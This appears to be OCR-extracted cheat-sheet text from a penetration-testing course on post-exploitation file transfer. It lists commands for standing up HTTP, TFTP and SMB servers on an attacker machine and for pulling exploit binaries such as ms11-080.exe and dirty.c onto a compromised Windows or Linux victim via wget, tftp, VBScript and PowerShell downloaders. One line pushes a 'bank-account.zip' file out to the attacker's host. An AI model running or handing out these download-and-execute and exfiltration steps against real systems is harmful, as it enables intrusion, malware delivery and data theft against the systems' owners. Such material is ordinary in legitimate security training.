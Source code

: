 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

● HTTP
○ sudo service apache2 start
○ /var/www/html
○ wget http://192.168.1.42/go.exe
● SIMPLE HTTP
○ python SimpleHTTPServer.py
○ Will serve up on port 8000 in the folder you run the script from
● TFTP
○ atftpd --daemon --port 69 /tftp
○ cd /tftp touch incoming chmod 777 incoming
○ tftp -i 10.11.0.185 GET test.txt
○ tftp -i 10.11.0.185 PUT bank-account.zip incoming
● SMB
○ smbserver.py [sharename] /tmp/smbserve/
○ Dir \\192.168.1.48\sharename
○ \\192.168.1.48\sharename\go.exe






# File Transfer
● Windows
○ tftp -i 10.11.0.185 GET test.txt
○ cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe
○ Powershell 2
■ (new-object
System.Net.WebClient).Downloadfile("http://10.11.0.185/access
chk.exe", "C:\lec\accesschk.exe")

○ Powershell 3
■ Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"
○ SimpleSMBServer
■ smbserver.py lecon /var/www/html
○ SimpleHTTPServer
■ python -m SimpleHTTPServer
○ FTP
■

● Linux
○ wget http://10.11.0.158/dirty.c -O /tmp/dirty.c
○ scp root@10.11.0.158:~/Downloads/dirty.c .








#### Windows lol
Certutil 
bitsadmin
